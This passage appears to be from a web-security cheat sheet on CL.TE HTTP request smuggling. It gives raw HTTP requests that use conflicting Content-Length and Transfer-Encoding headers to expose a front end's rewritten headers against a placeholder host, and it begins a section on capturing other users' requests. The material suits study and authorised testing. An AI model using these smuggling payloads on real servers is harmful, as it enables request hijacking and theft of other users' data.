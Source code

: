 <mark style="color:yellow;">**CL.TE**</mark>

Find a request that reflects the value

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=user@normal-user.net
```

```html
<input id="email" value="user@normal-user.net" type="text">
```

Use the following request smuggling attack to reveal the rewriting

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

```html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

### <mark style="color:yellow;">Capturing other users' requests</mark> <a href="#capturing-other-users-requests" id="capturing-other-users-requests"></a>

<mark style="color:yellow;">**CL.TE**</mark>

Smuggle a request that submits data to the storage function, with the parameter containing the data to store positioned last in the request.
